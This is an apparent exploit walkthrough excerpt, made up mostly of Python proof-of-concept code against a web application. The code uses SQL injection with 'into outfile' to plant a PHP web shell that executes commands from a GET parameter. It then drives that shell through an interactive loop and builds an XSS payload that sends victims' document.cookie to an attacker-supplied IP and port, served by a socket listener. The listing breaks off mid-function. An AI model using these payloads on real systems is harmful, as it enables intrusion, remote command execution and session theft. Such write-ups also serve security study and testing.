 Uploading the shell using `upload` function:

```python
def upload(r, head):

    url = (target + 'admin/edit.php?id=-1%20union%20select%20"<?php","system($_GET[%27cmd%27]);","?>",";"%20into%20outfile%20"/var/www/css/shell.php"%23')
    r.get(url, headers=head)
    shell_url = url + "css/shell.php"
    test = r.get(shell_url, headers=head)
    if test.text.find("Notice: Undefined index:"):
        print("[+] Shell uploaded")
        interact(r, head)
    else:
        print("[-] Shell upload failed")
        sys.exit()
```

Interacting with shell using `interact` function:

```python
def interact(r, head):
    shell_url = target + "css/shell.php"
    while True:
        cmd = input("$ ")
        if cmd == "exit":
            url = shell_url + "?c=rm shell.php"
            r.get(url)
            sys.exit()
        else:
            url = shell_url + "?cmd={}".format(cmd)
        print(r.get(url, headers=head).text.replace(";", ""))
```

The complete PoC:

```python
#!/usr/bin/env python3
import requests
import re
import socket
import sys

r = requests.Session()

if len(sys.argv) < 3:
    print("Usage: ./" + sys.argv[0] + " [http://target] [your IP] [port to listen on]")
    sys.exit()
	
target = sys.argv[1]
attacker = sys.argv[2]
def exploit():
    port = int(sys.argv[3])
    payload = (
        "<script>var i = new Image(); i.src = 'http://"
        + attacker
        + ":"
        + str(port)
        + "/' + escape(document.cookie)</script>"
    )
    print("[+] Submitting XSS")
    send(payload, port)

def listen(port):
    HOST = ""
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.bind((HOST, port))
```